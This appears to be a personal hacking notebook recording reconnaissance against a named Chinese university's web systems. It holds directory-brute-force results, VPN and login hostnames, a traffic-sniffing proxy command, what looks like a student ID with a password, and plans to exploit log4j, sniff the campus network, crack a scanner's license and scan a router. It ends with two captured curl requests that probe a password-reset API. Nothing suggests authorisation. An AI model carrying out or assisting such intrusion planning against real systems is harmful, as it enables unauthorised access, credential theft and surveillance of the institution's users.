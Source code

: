 ```yaml
---
tags: [freelancer, hack]
title: The Hack (Get password and tests)
created: '2021-12-22T05:45:58.000Z'
modified: '2022-08-18T16:04:01.502Z'
---
```


# The Hack (Get password and tests)

dirbuster has found something over  "http://oa.lixin.edu.cn//test/"
+ http://oa.lixin.edu.cn//admin (CODE:301|SIZE:237)                            
+ http://oa.lixin.edu.cn//css (CODE:301|SIZE:235)                              
+ http://oa.lixin.edu.cn//help (CODE:301|SIZE:236)                             
+ http://oa.lixin.edu.cn//images (CODE:301|SIZE:238)                           
+ http://oa.lixin.edu.cn//js (CODE:301|SIZE:234)                               
+ http://oa.lixin.edu.cn//setup (CODE:301|SIZE:237)                            
+ http://oa.lixin.edu.cn//template (CODE:301|SIZE:240)                         
+ http://oa.lixin.edu.cn//test (CODE:301|SIZE:236)                             
+ http://oa.lixin.edu.cn///admin (CODE:301|SIZE:237)                           
+ http://oa.lixin.edu.cn///help (CODE:301|SIZE:236)                            
+ http://oa.lixin.edu.cn///images (CODE:301|SIZE:238)                          
+ http://oa.lixin.edu.cn///script (CODE:301|SIZE:238)  

suspicious:
http://oa.lixin.edu.cn/oanew/sys/taskcenterapp/*default/index.do


portal (even in the internet):
http://202.121.255.3:8080/portal

Scan this website with kali linux.

The Intranet Gateway For Campus: (maybe less hops?)
https://app.topsec.com.cn

mitmdump --mode socks5 --listen-port 8050 -w logs.log --flow-detail 3 --set stream_websocket=true

pdvpn.lixin.edu.cn
pdvpn2.lixin.edu.cn
vpn.lixin.edu.cn
vpn2.lixin.edu.cn

xxb.lixin.edu.cn/jszl/57078.htm

201960630:CHENweiyi0519

https://cas.paas.lixin.edu.cn/cas/login?service=https%3A%2F%2Flxjw.lixin.edu.cn%2Fcas%2Flogin

https://security-center.paas.lixin.edu.cn/find-pwd

20039370

missing puzzle for changing password:

trial user:
201960249

found russia hacker's kali tool site: https://en.kali.tools/all/

apparently we have some issue with log4j and this could be our way in, the damn server.

sniffing the whole damn campus is only possible if we know how to get into the same subnet of all people.

have searched related websites with site:lixin.edu.cn, could get more if keep doing so, using dnsenum.

to get all site links with proper titles, we need to use playwright.

nessus scanner has that 16 ips limitation, we need to crack/patch it first.

to master kali linux, recommend to scrape kali_tools (https://tools.kali.org/) and tutorialspoint (https://www.tutorialspoint.com/kali_linux/index.htm) for kali, or just simply using manpage.

cisco router is untouched till now. need we to scan it?
(intermediate ip addresses)

curl 'https://personal-security-center.paas.lixin.edu.cn/api/v1/personal/open/passwordStrategy/verify' \
  -H 'Connection: keep-alive' \
  -H 'sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="98", "Google Chrome";v="98"' \
  -H 'Accept: application/json, text/plain, */*' \
  -H 'Content-Type: application/json;charset=UTF-8' \
  -H 'sec-ch-ua-mobile: ?0' \
  -H 'User-Agent: Mozilla/5.0 (X11; CrOS aarch64 14371.0.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4729.0 Safari/537.36' \
  -H 'sec-ch-ua-platform: "Chrome OS"' \
  -H 'Origin: https://security-center.paas.lixin.edu.cn' \
  -H 'Sec-Fetch-Site: same-site' \
  -H 'Sec-Fetch-Mode: cors' \
  -H 'Sec-Fetch-Dest: empty' \
  -H 'Referer: https://security-center.paas.lixin.edu.cn/' \
  -H 'Accept-Language: en-US,en;q=0.9' \
  --data-raw '{"password":"abcdefABC","userId":""}' \
  --compressed

curl 'https://personal-security-center.paas.lixin.edu.cn/api/v1/personal/open/forgotPassword/changePassword' \
  -H 'Connection: keep-alive' \
  -H 'sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="98", "Google Chrome";v="98"' \
  -H 'Accept: application/json, text/plain, */*' \
  -H 'Content-Type: application/json;charset=UTF-8' \
  -H 'sec-ch-ua-mobile: ?0' \
  -H 'User-Agent: Mozilla/5.0 (X11; CrOS aarch64 14371.0.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4729.0 Safari/537.36' \
  -H 'sec-ch-ua-platform: "Chrome OS"' \
  -H 'Origin: https://security-center.paas.lixin.edu.cn' \
  -H 'Sec-Fetch-Site: same-site' \
  -H 'Sec-Fetch-Mode: cors' \
  -H 'Sec-Fetch-Dest: empty' \
  -H 'Referer: https://security-center.paas.lixin.edu.cn/' \
  -H 'Accept-Language: en-US,en;q=0.9' \
  --data-raw '{"confirmPassword":"abc123ABC","newPassword":"abc123ABC","nonce":"YzhhZmZjYzktNWQ3Ny00MGU1LTg0ODgtYTYzZTMzMDZkMjU0XzE2NDAyNjg5MzcyNTY"}' \
  --compressed
